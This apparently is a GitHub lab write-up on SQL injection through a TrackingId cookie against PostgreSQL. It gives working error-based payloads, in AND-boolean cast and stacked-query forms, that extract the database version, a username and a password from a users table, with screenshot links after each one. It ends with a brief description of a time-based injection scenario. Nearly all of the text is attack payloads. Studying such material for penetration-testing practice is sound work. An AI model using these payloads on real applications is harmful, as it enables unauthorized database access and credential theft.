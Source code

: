 <h1>Visible-Error Based SQL Injection - AND Boolean</h1>

<h2>Identifying The Visible SQL Error</h2>

Payload - Cookie: TrackingId=wT5EzibWN23Zg95W'

<img width="1911" height="698" alt="identify-visible-error" src="https://github.com/user-attachments/assets/2d950f69-ca31-4615-8ccb-9ebe875d43b3" />

<h2>Identifying The DBMS Version</h2>

Payload - Cookie: TrackingId=x'+and+1=cast((select+version())as+int)--

<img width="1910" height="699" alt="identify-version-and-boolean" src="https://github.com/user-attachments/assets/5e22cf41-82a9-436f-a7d2-b5ffe633062c" />


<h2>Identifying A Username</h2>

Payload - Cookie: TrackingId=x'+and+1=cast((select+username+from+users+limit+1)as+int)--

<img width="1910" height="699" alt="identify-username-and-boolean" src="https://github.com/user-attachments/assets/2e452d1f-ab21-4ec6-95a7-d4faefe3d085" />


<h2>Identifying A Password</h2>

Payload - Cookie: TrackingId=x'+and+1=cast((select+password+from+users+limit+1)as+int)--

<img width="1906" height="696" alt="identify-password-and-boolean" src="https://github.com/user-attachments/assets/229e69a8-5705-46ce-888b-bd5702433041" />


<h1>Visible-Error Based SQL Injection - Stacked Queries</h1>

<h2>Identifying The Visible SQL Error</h2>

Payload -  Cookie: TrackingId=wT5EzibWN23Zg95W'

<img width="1911" height="698" alt="identify-visible-error" src="https://github.com/user-attachments/assets/2d950f69-ca31-4615-8ccb-9ebe875d43b3" />

<h2>Identifying The DBMS Version</h2>

Payload - Cookie: TrackingId='%3bselect+cast((select+version())as+int)%3b--

<img width="1904" height="699" alt="identify-version" src="https://github.com/user-attachments/assets/8e726d33-7f82-46d9-afe1-0033c5d908c3" />

<h2>Identifying A Username</h2>

Payload - Cookie: TrackingId='%3bselect+cast((select+username+from+users+limit+1)as+int)%3b--

<img width="1908" height="700" alt="identify-username" src="https://github.com/user-attachments/assets/c4177917-d48f-46d7-8ebe-96400145e83b" />


<h2>Identifying A Password</h2>

Payload - Cookie: TrackingId='%3bselect+cast((select+password+from+users+limit+1)as+int)%3b--

<img width="1909" height="696" alt="identify-password" src="https://github.com/user-attachments/assets/63296533-958b-4b83-88e1-b9e2fb40b26c" />


<h1>Time-Based SQL Injection</h1>


<mark>Scenario</mark>: The Server uses one of the client's cookies as a tracking cookie and makes a backend, asyncronous SQL Query with the unsanitized tracking cookie. Users can therefor cause a time-based conditional delay in the SQL server's response. Database = Postgresql
